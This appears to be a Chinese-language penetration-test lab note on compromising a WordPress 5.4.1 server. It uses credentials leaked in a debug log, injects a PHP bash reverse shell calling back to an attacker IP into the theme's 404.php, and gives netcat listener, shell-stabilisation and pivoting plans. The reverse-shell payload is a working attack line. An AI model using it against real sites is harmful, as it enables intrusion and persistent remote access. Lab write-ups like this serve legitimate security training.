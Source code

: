 ```markdown
# 🎯 10.10.110.100 - 初始 Web 服务器

## 🧾 基本信息

- 操作系统：Linux
- 主机名：未知
- 服务开放端口：
  - 21/tcp → FTP（匿名登录 ✅）
  - 65000/tcp → HTTP（WordPress 5.4.1）

---

## 🔍 信息收集与枚举

### 🌐 HTTP

- Web 服务运行在 **端口 65000**
- WordPress 安装在子路径 `/wordpress/`
- 后台登录地址：

```

[http://10.10.110.100:65000/wordpress/wp-login.php](http://10.10.110.100:65000/wordpress/wp-login.php)

```

- WordPress 版本：**5.4.1**
- debug log 路径泄露信息：
- 用户名：`james`
- 密码：`Toyota` ✅（首字母大写）

- 成功登录后台后可访问主题编辑器：

```

Appearance > Theme Editor > 404.php

````

---

### 📁 FTP 枚举

- 匿名登录成功：

```bash
ftp 10.10.110.100
Name: anonymous
Password: anonymous@
````

* 可读取部分目录，但无写权限

---

## 🧨 攻击路径

1. 使用 `james:Toyota` 登录 WP 后台

2. 打开 `Twenty Twenty` 主题 → `404.php`

3. 插入反弹 shell payload：

   ```php
   <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'"); ?>
   ```

4. 在本地监听：

   ```bash
   nc -lvnp 4444
   ```

5. 访问触发反弹（可任意 404 页面）：

   ```
   http://10.10.110.100:65000/wordpress/wp-content/themes/twentytwenty/404.php
   ```

6. 成功反弹 shell，当前用户为 `www-data`

---

## 🛠️ Shell 稳定化

在拿到 shell 后执行以下命令，修复终端问题：

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
export PS1='\u@\h:\w\$ '
```

成功后获得类似完整 TTY 的效果。

---

## 📦 收集信息

* 用户：

  * `james`
  * `balthazar`
* 密码：

  * `james: Toyota`
* 文件：

  * `debug.log`（含凭证）
  * 上传的 shell 路径：`404.php`（或任意触发）
* 当前权限：`www-data`，未提权

---

## ✅ 当前状态

* 已成功登录后台
* 通过主题注入反弹 shell 成功上线
* Shell 已稳定处理，可用作渗透入口

---

## 📝 TODO

* [ ] 搜索提权方式（如 `sudo -l`, cron job）
* [ ] 部署持久化反弹 shell（如 ligolo agent）
* [ ] 记录上传路径和访问方式
* [ ] 用作入口机拓展内网代理（如 chisel/ligolo）

```
